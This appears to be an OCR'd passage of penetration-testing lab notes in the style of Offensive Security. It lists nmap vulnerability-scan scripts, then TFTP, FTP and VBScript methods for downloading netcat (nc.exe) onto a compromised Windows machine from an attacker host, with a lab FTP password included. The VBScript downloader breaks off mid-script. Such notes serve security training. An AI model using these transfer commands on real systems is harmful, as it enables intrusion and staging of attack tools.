 
#### #Vuln scanning
    * nmap
        ```
        nmap -v -p 80 --script=http-vuln-cve2010-2861 10.11.1.210 # cold fusion
        nmap -v -p 21 --script=ftp-anon.nse 10.11.1.1-254  # anonymous ftp
        nmap -v -p 139, 445 --script=smb-security-mode 10.11.1.236  # smb security level
        ```
    * openVAS

#### #File transfer/uploading
    * TFPT
        ```
        root@kali:~# mkdir /tftp
        root@kali:~# atftpd --daemon --port 69 /tftp
        root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/

        C:\Users\Offsec>tftp -i 10.11.0.187 get nc.exe
        ```

    * FTP
        ```
        # install and add user
        root@kali:~# apt-get update && apt-get install pure-ftpd

        groupadd ftpgroup
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser
        pure-pw useradd offsec_gros -u ftpuser -d /ftphome
        pure-pw mkdb
        cd /etc/pure-ftpd/auth/
        ln -s ../conf/PureDB 60pdb
        mkdir -p /ftphome
        chown -R ftpuser:ftpgroup /ftphome/
        /etc/init.d/pure-ftpd restart

        # download
        echo open 192.168.34.31 21> ftp.txt
        echo USER offsec_gros>> ftp.txt
        echo X3KR9LsbywChj >> ftp.txt
        echo bin >> ftp.txt
        echo GET nc.exe >> ftp.txt
        echo bye >> ftp.txt
        ftp -v -n -s:ftp.txt

        wget.exe -r ftp://offsec_gros:X3KR9LsbywChj@10.11.0.187
        ```

    * VBScript
        ```
        echo strUrl = WScript.Arguments.Item(0) > wget.vbs
        echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
        echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
        echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
        echo Err.Clear >> wget.vbs
        echo Set http = Nothing >> wget.vbs
        echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
        echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
        echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
        echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
        echo http.Open "GET", strURL, False >> wget.vbs